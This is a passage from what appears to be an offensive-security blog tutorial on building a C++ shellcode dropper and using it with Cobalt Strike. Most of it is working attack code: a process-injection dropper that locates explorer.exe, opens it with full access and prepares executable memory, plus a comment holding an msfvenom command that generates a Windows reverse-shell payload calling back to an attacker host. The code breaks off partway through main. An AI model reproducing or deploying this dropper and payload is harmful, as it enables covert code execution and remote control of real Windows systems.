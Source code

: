 **Bonus Round - Cobalt Strike!**
Taking it to the next level, let's use our dropper for Cobalt Strike. Using the Payload Generator functionality, we have the ability to generate C++ shellcode for our dropper:
<img src="https://blog.spookysec.net/img/Pasted image 20220213003031.png">

Afterwards, we are prompted a spot on disk to place our shellcode, checking out the file:
<img src="https://blog.spookysec.net/img/Pasted image 20220213003238.png">

Boom! We have our shellcode. Time to slot it into our dropper and update the byte-values:

```c++
#include <iostream>
#include <Windows.h>
#include <tlhelp32.h>
#include <locale>
#include <string>

using namespace std;

HANDLE GetProcesHandleName() {
    HANDLE ProcessHandle;


    PROCESSENTRY32 procEntry;
    procEntry.dwSize = sizeof(PROCESSENTRY32);

    HANDLE allProcesses;
    allProcesses = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);

    if (Process32First(allProcesses, &procEntry) == TRUE) {
        while (Process32Next(allProcesses, &procEntry) == TRUE) {
            wchar_t newtargetProcName[1024] = L"explorer.exe";

            if (wcscmp(procEntry.szExeFile, newtargetProcName) == 0) {
                cout << "Process ID Found! PID: " << procEntry.th32ProcessID << "\n";
                ProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, procEntry.th32ProcessID);
                return ProcessHandle;
            }

        }

    }

}

int main()
{
    HANDLE hProcess;
    SIZE_T dwSize = 892;
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr;
    SIZE_T bytesOut;
    hProcess = GetProcesHandleName();

	// msfvenom -p windows/x64/shell_reverse_tcp LHOST=xx.xx.xx.xx LPORT=1337 -f c
```